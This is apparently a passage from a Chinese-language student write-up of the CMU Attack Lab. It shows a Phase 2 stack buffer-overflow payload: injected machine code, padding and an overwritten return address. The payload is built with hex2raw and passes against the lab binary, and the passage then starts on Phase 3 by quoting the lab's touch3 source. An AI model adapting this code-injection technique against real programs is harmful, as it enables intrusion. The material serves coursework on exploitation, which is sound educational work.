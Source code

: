 看看Phase2.d的输出:
```shell
$ cat Phase2.d
Phase2.o:     file format elf64-x86-64


Disassembly of section .text:

   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   49 c7 c0 ec 17 40 00    mov    $0x4017ec,%r8
   c:   41 ff d0                call   *%r8
```
然后把十六进制数输入Phase2文件
```
/* Phase2 */
bf fa 97 b9 59          /* mov    $0x59b997fa,%edi */
49 c7 c0 ec 17 40 00    /* mov    $0x4017ec,%r8 */
41 ff d0                /* call   *%r8 */
/* 以上15字节 */
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff
78 dc 61 55             /* 返回地址覆写为0x5561dc78 */
```
生成字符串
```shell
mv Phase2.s Phase2.d Phase2.o
./hex2raw < Phase2 > Phase2-raw
```
成功了!
```shell
$ ./ctarget -qi Phase2-raw
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 49 C7 C0 EC 17 40 00 41 FF D0 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 78 DC 61 55
```


## Phase 3
Phase2中我给%rdi寄存器赋值传参,而这个问题需要以字符指针传参.
```c
void touch3(char *sval){
	vlevel = 3;
	if(hexmatch(cookie, sval)){
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	}
	else{
		printf("Misfire: You called touch3(\"%s\")\n", sval);
		fail(3);
	}
	exit(0);
}

int hexmatch(unsigned val, char *sval){
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
```